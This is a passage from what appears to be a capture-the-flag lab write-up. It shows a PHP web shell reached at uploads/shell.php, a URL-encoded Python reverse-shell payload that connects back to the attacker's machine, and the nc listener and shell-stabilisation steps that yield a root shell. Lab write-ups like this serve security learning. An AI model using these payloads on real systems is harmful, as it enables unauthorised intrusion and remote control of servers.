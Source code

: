 The file uploaded without any issues and now we may be able to access it, I modified the location from `finance.php` to `uploads/shell.php` and added a simple id command to see if we get a result.

![](/assets/blog/Sequence/shell_works.png)

Once that worked I generated a reverse shell command on [revshells.com](https://www.revshells.com/) and used the following payload which must be URL encoded:

```
uploads/shell.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.14.78.229%22%2C9003%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22bash%22%29%27
```

After sending the request you should receive a connection. The next step is to stabilize the shell.

```terminal
$nc -lvnp 9003
Listening on 0.0.0.0 9003
Connection received on 10.10.239.167 42516
root@4f18a45cca05:/var/www/html/uploads# python3 -c 'import pty;pty.spawn("/bin/bash")';
root@4f18a45cca05:/var/www/html/uploads# ^Z
[1]+  Stopped                 nc -lvnp 9003
$stty raw -echo; fg
nc -lvnp 9003

root@4f18a45cca05:/var/www/html/uploads# 
```
